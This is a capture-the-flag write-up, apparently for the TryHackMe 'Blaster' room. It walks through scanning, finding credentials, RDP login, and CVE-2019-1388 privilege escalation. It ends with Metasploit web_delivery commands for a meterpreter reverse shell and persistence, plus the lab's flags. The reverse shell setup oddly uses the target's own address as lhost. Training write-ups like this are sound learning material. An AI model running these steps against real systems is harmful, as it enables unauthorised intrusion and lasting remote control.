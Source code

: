 # [Blaster](https://tryhackme.com/room/blaster)

> A blast from the past!

## Scanning

scan the target, add `-Pn` option when doing with windows

```
nmap -sS -Pn -sV -sC -T4 10.10.194.71
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/f3c5a0c9-c2d9-4a6e-aac0-a1a5c49bfa52)

## HTTP

view the webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/5ba39ee9-a321-42c6-b3bf-c2bcc9dcca54)

it's default IIS windows server

## Enumeration

enum the directories using gobuster

```
gobuster dir -u http://10.10.194.71 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40
```

i found a hidden directory call /retro

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/de676823-17f9-48f0-8c49-1ccf488243d9)

view the webpage, we have a blog

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3d82aa64-08ca-4b27-8689-4f5651787abe)

maybe the username is `wade`

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/9b552741-aaa4-438d-9878-bdd286630c85)

and i found a comment in that post may related to the password

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/18f94966-0c3d-4122-a707-174884bfc7bc)

## Exploitation

log into the machine using remmina

```
10.10.194.71
wade
parzival
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/783f1ed9-f6cc-445d-9886-0b8e189764d5)

inside, we have a user.txt

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/aebb9512-aeeb-43e1-afa1-50902d13f18c)

| Flag | user.txt |
| --- | --- |
| Answer | THM{HACK_PLAYER_ONE} |

## Privilege Escalation

let's diving into the machine, find some research about hhupd.exe

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d62ce64c-0c32-4b80-adc5-f1ea11b29f7d)

it's CVE-2019-1388, run the program with administrator

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/601d5d80-f657-4032-bcbb-59d31d45faf4)

click on show more detail and click show author certificate

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/3d1558a0-1595-4fbf-9028-ef41173edeee)

click on the link and close the program, you will see a webpage in browser, now save the webpage

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/7272cba7-77d6-49d2-a280-80f2b8c96aab)

search for C:\Windows\System32\cmd.exe to open cmd

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/d6538b73-7fef-4192-a1fb-ea8b96be3582)

here you are, flag at Desktop of Admin account

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/fcc7222c-eb19-4bce-8713-efb2b8cb9988)

| Flag | root.txt |
| --- | --- |
| Answer | THM{COIN_OPERATED_EXPLOITATION} |

## Persistence access

now, we need to gain a remote shell access and persistence

```
msfconsole
use exploit/multi/script/web_delivery
options
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/15904890-fedd-4ec3-9d8e-8a3344cdaa8e)

set the options and target to PSH (powershell)

```
show targets
set target 2
set lhost 10.10.194.71
set lport 3389
set payload windows/meterpreter/reverse_http
run -j
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/baa995e1-5d68-46b8-a2d6-6dc59c6da684)

Run the command on the compromised machine and a reverse shell will spawn in a new Metasploit session

```
run persistence -X
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/6f460b71-6159-406f-b3b1-038eff699c2f)

